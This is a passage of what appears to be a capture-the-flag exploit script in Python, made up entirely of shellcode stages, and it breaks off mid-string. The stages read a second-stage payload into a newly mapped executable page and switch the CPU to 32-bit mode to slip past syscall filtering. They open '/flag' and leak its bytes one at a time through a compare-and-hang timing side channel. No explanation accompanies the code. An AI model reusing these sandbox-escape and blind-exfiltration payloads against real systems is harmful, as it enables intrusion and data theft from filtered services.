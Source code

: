 ```python

def exp(p,a,b):
    shellcode1 = '''
        mov r10,rbx
        add r10w,0x0140
        xor rdi,rdi
        mov rsi,r10    
        xor rdx,rdx
        add dx,0x1040
        xor rax,rax
        syscall
        jmp r10
    '''
    shellcode2 = '''

        mov rdi,0x40000000
        mov rsi,0x1000
        mov rdx,0x7
        mov r10,0x22
        mov r8,0xFFFFFFFF
        xor r9,r9
        mov rax,0x9
        syscall

        mov rsi,rdi
        xor rdi,rdi
        mov rdx,0x1000
        xor rax,rax
        syscall
        jmp rsi
    '''
    shellcode3_ = '''
        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-3
        ret 
    '''.format(a,b) if a==0 else '''

```